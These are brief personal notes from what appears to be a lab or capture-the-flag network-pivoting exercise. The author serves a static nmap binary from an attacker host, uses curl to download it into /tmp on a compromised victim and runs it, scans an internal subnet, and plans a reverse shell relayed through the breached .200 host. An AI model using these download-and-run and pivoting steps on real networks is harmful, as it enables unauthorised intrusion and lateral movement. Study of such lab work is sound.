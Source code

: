 
Nmap Binary
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap

Will download the file and will send it to the victim
```
python3 -m http.server 80
```
![[Pasted image 20231225002841.png]]

```
curl 10.50.106.240/nmap-sardarji -o /tmp/nmap-sardarji && chmod +x /tmp/nmap-sardarji
```
![[Pasted image 20231225002923.png]]


```
./nmap-sardarji -sn 10.200.105.1-255 -oN scan-sardarji
```
![[Pasted image 20231225003439.png]]


```
./nmap-sardarji -sS -p 1-15000 10.200.105.150
```
![[Pasted image 20231225013419.png]]

We have already compromised .200

So we are able to connect to .150 directly but we can't get a shell from outside wall as firewall will block it.
.200 -> sshuttle -> 150 

So we will simply open up a listener on .200 and catch the reverse shell there.


